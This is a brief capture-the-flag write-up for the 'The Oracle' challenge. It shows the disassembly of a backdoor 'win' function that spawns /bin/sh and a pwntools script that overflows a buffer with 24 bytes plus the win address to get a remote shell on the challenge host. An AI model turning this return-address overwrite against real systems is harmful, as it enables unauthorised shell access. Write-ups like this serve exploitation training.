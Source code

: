 ### The Oracle (100 Points)

> Would you still have broken it if I hadn't said anything?
>
> [attachment](theoracle-ef25f23d8a2218004732f71bfbfa1267)

ret2text!

Disasm the .text segment then we can see the win function is a backdoor. so we just need to use overflow to cover the return address to win 😄

```c
.text:0000000000401196 win             proc near
.text:0000000000401196 ; __unwind {
.text:0000000000401196                 endbr64
.text:000000000040119A                 push    rbp
.text:000000000040119B                 mov     rbp, rsp
.text:000000000040119E                 sub     rsp, 10h
.text:00000000004011A2                 mov     qword ptr [rbp-8], 0
.text:00000000004011AA                 mov     qword ptr [rbp-10h], 0
.text:00000000004011B2                 lea     rdx, [rbp-10h]
.text:00000000004011B6                 lea     rax, [rbp-8]
.text:00000000004011BA                 mov     rsi, rax
.text:00000000004011BD                 lea     rdi, aBinSh     ; "/bin/sh"
.text:00000000004011C4                 call    sub_401090
.text:00000000004011C9                 nop
.text:00000000004011CA                 leave
.text:00000000004011CB                 retn
.text:00000000004011CB ; } // starts at 401196
.text:00000000004011CB win             endp
```

#### exploit script

```python
#!/usr/bin/env python
from pwn import *
context.log_level='debug'

p = remote('chal.ctf.b01lers.com',1015)
p.recvuntil('Thyself.\n')
p.sendline('A'*24+p64(0x401196))
p.sendline('sh')

p.interactive()
```

